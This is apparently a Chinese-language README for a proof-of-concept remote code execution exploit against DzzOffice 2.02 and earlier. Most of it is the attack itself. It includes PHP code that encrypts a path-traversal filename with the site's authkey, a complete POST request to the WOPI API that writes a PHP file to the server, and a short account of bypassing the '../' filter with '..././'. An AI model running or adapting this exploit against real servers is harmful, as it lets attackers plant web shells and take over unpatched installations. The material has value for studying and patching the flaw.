



# DzzOffice <= 2.02 RCE
## 环境安装

源代码：

https://github.com/zyx0814/dzzoffice/releases/



## 利用前提

首先需要获取到authkey  这个可以通过爆破或者其他的方式获取到具体的这个请看文章

我现在的环境的key为：3090dfHwzmw9lsC3

在网上找了一下加密的脚本

```php
<?php 
function authcode_config($string,$key, $operation = 'DECODE', $expiry = 0)
{
$ckey_length = 4;
$key = md5($key);
$keya = md5(substr($key, 0, 16));
$keyb = md5(substr($key, 16, 16));
$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

$cryptkey = $keya.md5($keya.$keyc);
$key_length = strlen($cryptkey);

$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
$string_length = strlen($string);

$result = '';
$box = range(0, 255);

$rndkey = array();
for($i = 0; $i <= 255; $i++) {
$rndkey[$i] = ord($cryptkey[$i % $key_length]);
}

for($j = $i = 0; $i < 256; $i++) {
$j = ($j + $box[$i] + $rndkey[$i]) % 256;
$tmp = $box[$i];
$box[$i] = $box[$j];
$box[$j] = $tmp;
}

for($a = $j = $i = 0; $i < $string_length; $i++) {
$a = ($a + 1) % 256;
$j = ($j + $box[$a]) % 256;
$tmp = $box[$a];
$box[$a] = $box[$j];
$box[$j] = $tmp;
$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
}

if($operation == 'DECODE') {
if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
return substr($result, 26);
} else {
return '';
}
} else {
return $keyc.str_replace('=', '', base64_encode($result));
}
}

echo base64_encode(authcode_config("disk::..././..././..././shell.php",md5('3090dfHwzmw9lsC3'),'ENCODE'));
```

输出



然后构造包：

```
POST /core/api/wopi/index.php?access_token=1&action=contents&path=ZmM0OWp3bDgxbDE3WlhocFlCVUl4ZDFvRkNYeDRVaGtQbklJYlVSUjV2VjRzLzBwUkJ0Y051ZHl4QzVITFlvN205cENqZktDY1lyNHRQQ0pWblU= HTTP/1.1
Host: word.com
Content-Length: 18
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://word.com
Referer: http://word.com/user.php?mod=login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?php phpinfo();?>
```



对于这个漏洞怎么产生的，具体的可以看看代码。

大概的流程是验证这个path 可用性。然后过滤了../  \n \r 

通过…/./ 绕过。到了写文件的方法。file_put_contents 两个参数都是可控的。就直接写入文件了